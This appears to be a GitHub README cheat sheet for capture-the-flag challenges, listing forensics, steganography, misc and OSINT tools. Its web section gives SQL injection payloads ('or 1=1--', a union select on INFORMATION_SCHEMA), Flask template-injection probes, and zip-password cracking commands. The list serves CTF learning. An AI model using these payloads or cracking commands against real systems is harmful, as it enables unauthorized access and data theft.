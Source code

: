 # CTF tools & Resources
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS
### [Forensics, Linux Tools and Commands](#linux)
### [Web](#web)
### [Misc](#misc)
### [OSINT](#osint)

## <a name = "linux">Basic linux tools and Commands</a>
* binwalk -e <filenam> : //Extracts hidden files
* steghide extract -sf <filename> : //Extracts hidden text in the image
* xxd <file name> : //Prints the Hex version of file
* grep "element" //finds the element
* strings <filename> // gives the strings hidden in the file
* hexedit <filename> //hexeditor
* java -jar stegsolve.jar 
* pngcheck <filename> //checks if the png file is broken
* tar -xvf <filename> // untars the tar files
* cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      
 // used this command to obtain the flag from the java file having flag characters written in an scrambled order 
* fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip
* fcrackzip -u -D -p rockyou.txt crackme.zip
 
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 
* ltrace ./file     is a helphul command to see the functioning of a program
also use strace
* cat /proc/(process id)/             
we can see all files running in the process with given process id.
* exiftool for meta data
* use tcpflow -r file  for pcap
* zsteg :- another great stego tool
* john the ripper :- tool for password cracking

## <a name = "web">Web</a>
### SQL injections
* curl "url" --data "username=admin&password='+or+1=1--" && echo 
this command will find the information to username admin stored in database (SQL injection).
* try admin'-- for SQLi.
* '||( SELECT secret FROM user WHERE username = 'a' )||'
* 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
* Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.
----------------------------------------------------------------------------------------------------------------------------------------------------------------
*  Postman great tool for web challs
* Robots -->>> url/robots.txt (shows hidden info)
* If a website uses flask, then try using {{ 7*7 }}to see its working, then use {{ config }}, {{request}},{{session}}, {{g}} in the text fields.
* To post requests to php from terminal use curl -X POST "url"

## <a name = "misc">Misc</a>
* Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.
*  git show -1 filename.txt > to compare against the last revision of file
   git show -2 filename.txt > to compare against the 2nd last revision of file
* Use this site for substitution https://quipqiup.com/
* Detect the DMFT Tools http://dialabc.com/sound/detect/index.html
* Online Stegnographic Decoder :- https://futureboy.us/stegano/decinput.html

## <a name ="osint">OSINT, Investigation and CyberWeapons</a>
* sherlock - track down profiles of a username.
* nmap - see all the ports of a network
* noisy -  create a lot of random traffic

